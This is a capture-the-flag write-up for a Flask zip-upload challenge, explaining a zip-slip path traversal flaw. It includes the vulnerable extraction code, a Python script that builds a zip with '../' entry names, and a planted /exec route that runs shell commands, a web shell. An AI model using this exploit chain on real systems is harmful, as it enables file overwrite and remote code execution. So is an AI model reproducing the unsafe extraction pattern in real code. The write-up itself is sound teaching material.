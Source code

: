 ## Slippery Upload (Moderate)

As for most of these challenges viewing the Website gives us the source code. It's a Flask web app again.

```
from flask import Flask, request
import zipfile, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32)
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['UPLOAD_FOLDER'] = '/tmp/uploads/'

@app.route('/')
def source():
    return '

%s

' % open('/app/run.py').read()

def zip_extract(zarchive):
    with zipfile.ZipFile(zarchive, 'r') as z:
        for i in z.infolist():
            with open(os.path.join(app.config['UPLOAD_FOLDER'], i.filename), 'wb') as f:
                f.write(z.open(i.filename, 'r').read())

@app.route('/zip_upload', methods=['POST'])
def zip_upload():
    try:
        if request.files and 'zarchive' in request.files:
            zarchive = request.files['zarchive']
            if zarchive and '.' in zarchive.filename and zarchive.filename.rsplit('.', 1)[1].lower() == 'zip' and zarchive.content_type == 'application/octet-stream':
                zpath = os.path.join(app.config['UPLOAD_FOLDER'], '%s.zip' % os.urandom(8).hex())
                zarchive.save(zpath)
                zip_extract(zpath)
                return 'Zip archive uploaded and extracted!'
        return 'Only valid zip archives are acepted!'
    except:
         return 'Error occured during the zip upload process!'

if __name__ == '__main__':
    app.run()

```

We only have one endpoint that allows us to upload a zip file. The `zip_upload()` function contains some fluff to check if the uploaded file is actually a zip that good easily be bypassed but that isn't the bug here. 

If you have ever used pythons zipfile library you'll notice that the way this app extracts the zipfile is somewhat strange, it's not using the extract function and manully builds out the target path.
```
with open(os.path.join(app.config['UPLOAD_FOLDER'], i.filename), 'wb') as f
```
This line is the problem here. By using relative paths in the zip file it allows us to (over)write arbritary files on target system this. E.g. if we create a zip file with `../../etc/passwd` it will be extracted to `/tmp/uploads/../../etc/passwd`. 

Because normal zip programs prevent us from creating zip files containing files with these names a written some python code to do so.
```
from pyzip import PyZip
import sys

args = sys.argv

if len(args) != 2:
    print("Usage: " + args[0] + " <file>")
else:
    fileName = args[1]

    with open(fileName, "rb") as exploitFile:
        exploitFileBinary = bytearray(exploitFile.read())
    pyzip = PyZip({'../' * 2 + "app/" + fileName: exploitFileBinary})
    pyzip.save('exploit.zip')

    print('ZIP success')
```
We want code execution so an obvious candidate for a file to overwrite is `/app/run.py`. Upon overwriting this file with garbage the server responds with an error. Thats a good sign, it shows that the server is actually trying to execute the file we wrote.

We can now create our payload. Because it still needs to be a flask web app i took the original code and extended it with a route that executes shell commands and returns the result.

```
@app.route('/exec', methods=['GET'])
def exec():
    cmd = request.args['cmd']
    result = os.popen(cmd).read()
    return result
```
The flag was found in the same directory as the app.